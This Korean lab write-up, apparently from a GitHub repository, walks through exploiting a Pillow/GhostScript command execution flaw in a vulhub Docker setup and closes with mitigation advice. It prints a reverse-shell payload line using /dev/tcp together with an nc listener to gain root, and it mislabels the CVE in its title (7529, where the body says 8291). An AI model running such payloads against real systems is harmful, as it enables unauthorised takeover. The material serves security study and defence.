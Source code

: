 # PIL-CVE-2017-7529

**Contributors**

-   [김정훈(@wjdgnsdl213)](https://github.com/wjdgnsdl213)

<br/>

## 요약
- `Python`에서 이미지 처리를 담당하는 `PIL(Pillow)` 모듈은 내부적으로 `GhostScript`를 호출하여 작업을 처리함. 
- 이 과정에서 `GhostScript`의 취약점으로 인해 발생하는 보안 이슈에 `PIL(Pillow)` 또한 영향을 받게 됨. 
- 특히, 이 취약점은 원격에서 악의적인 명령을 실행할 수 있는 문제를 일으키며, 이를 통해 공격자는 취약한 시스템을 원격 제어할 수 있는 권한을 획득할 수 있음.

## 이미지 인식 방법
- PIL은 이미지의 종류를 식별하기 위해 `'Magic Bytes'`라는 방식을 사용. 특히, 이미지가 EPS 형식 (헤더는 '%!PS')인 경우, PIL은 `EpsImagePlugin.py` 모듈로 처리.

- 이 모듈 내에서, `PIL`은 `gs` 명령어를 호출하여 `GhostScript`로 이미지를 처리.
  ```python
  command = [
    "gs",                  # GhostScript command
    "-q",                  # quiet mode
    "-g%dx%d" % size,      # set output geometry (pixels)
    "-r%fx%f" % res,       # set input DPI (dots per inch)
    "-dBATCH",             # exit after processing
    "-dNOPAUSE",           # don't pause between pages
    "-dSAFER",             # safe mode
    "-sDEVICE=ppmraw",     # ppm driver
    "-sOutputFile=%s" % outfile,  # output file
    "-c", "%d %d translate" % (-bbox[0], -bbox[1]),  # adjust for image origin
    "-f", infile,           # input file
  ]

  # GhostScript를 사용하여 이미지를 변환하는 코드
  try:
      with open(os.devnull, 'wb') as devnull:
          subprocess.check_call(command, stdin=devnull, stdout=devnull)
      im = Image.open(outfile)
  except Exception as e:
      # handle the exception as needed
      pass
  ```

<br/>

## 환경 구성 및 실행

|구분|시스템 이름|IP 주소|
|:--:|:--------:|:-----:|
|**사용자**|Ubuntu|192.168.81.136|
|**공격자**|Kali|192.168.81.137|

<br/>

- Ubuntu에서 vulhub취약점 소스 코드를 가져온다. (Kali 에서도 가져온다.)
  
  ![Alt text](image-1.png)

<br/>

- PIL-CVE-2017-8291 파일 확인
  
  ![Alt text](image-2.png)

<br/>

- docker-compose up -d 명령을 실행하여 이미지를 가져온다.
  
  ![Alt text](image-4.png)

<br/>

- kali로 우분투 IP의 8000번 포트로 아래 사이트에 들어간다.
  
  ![Alt text](image-8.png)

<br/>


- 먼저 vi로 poc.png 파일의 코드를 확인한다. 내용은 다음과 같다.
  
  ![Alt text](image-7.png)
  
  > 파일이 업로드 되면 /tmp/ 디렉토리에 aaaaa파일이 생성된다.

<br/>

- 그리고 kali에 다운받은 poc.png 파일을 업로드한다. 
  
  ![Alt text](image-5.png)

  ![Alt text](image-9.png)

<br/>

- docker환경에 aaaaa파일을 확인하여 취약점 존재 여부를 검증하면,

  ![Alt text](image-10.png)

  tmp 디렉터리에 aaaaa 파일이 성공적으로 생성되어 취약점이 있음을 알 수 있다.

<br/>

- ### 바인드 셸 명령을 통해 root 권한 얻기

- kali에서 poc.png 파일의 코드를 다음과 같이 수정한다.
  
  `bash -c "bash -i >& /dev/tcp/192.168.32.1/8002 0>&1"`

  ![Alt text](image-11.png)

- kali에서 listening port 8002를 열고 기다린다.
  
  `nc -l -p 8002`

  ![Alt text](image-12.png)

- kali에서 수정한 poc.png 파일을 다시 업로드 후 리스닝 포트가 셸을 성공적으로 리바운드한다.
  
  ![Alt text](image-13.png)


<br/>

## 결과

  ![Alt text](image-13.png)

<br/>

## 취약점 대응 방안 및 권장 사항
- GhostScript의 버전 문제로 PIL만 업데이트해도 해결되지 않으며, pip를 통한 업데이트도 효과가 없음.
  
- Python 웹 어플리케이션에서는 EPS 이미지 파일 처리가 드물지만, 처리 시 문제가 발생할 수 있음. 특히, PIL의 Image 모듈의 init() 함수 때문에 GhostScript 취약점에 노출될 수 있음.


- 특정 이미지 형식만 처리하기
  - 코드상에서, PIL은 기본적으로 init() 함수를 통해 모든 이미지 형식의 처리 방법을 로드 하려 함. 그러나 PIL은 preinit() 메서드를 제공하여 Bmp, Gif, Jpeg, Ppm, Png와 같은 일반적인 이미지 형식의 처리 방법만 로드할 수 있음. 이를 사용하면 GhostScript를 호출하여 EPS 파일을 파싱하는 것을 방지할 수 있음.
  
  ```python
  def init():
    global _initialized
    if _initialized >= 2:
        return 0

    for plugin in _plugins:
        try:
            logger.debug("Importing %s", plugin)
            __import__("PIL.%s" % plugin, globals(), locals(), [])
        except ImportError as e:
            logger.debug("Image: failed to import %s: %s", plugin, e)
  ```

- Image 모듈의 초기화 방식 변경
  - open 함수를 사용하여 이미지 파일을 열기 전에 preinit()을 사용하고, _initialized 값을 2 이상으로 설정하여, Image 모듈이 EPS 파일을 파싱하기 위해 GhostScript를 호출하는 것을 방지하도록 변경하는 것이 좋습니다.

  ```python
  Image.preinit()
  Image._initialized = 2 
  ```

## 정리

- 이 문서는 실제 보안 취약점 테스트 환경에서 진행된 공격 시나리오를 담고 있으며, `CVE-2017-8291`이라는 심각한 보안 취약점을 어떻게 이용할 수 있는지 보여줌. 
- 성공적인 공격은 시스템의 루트 제어를 가능하게 함. 
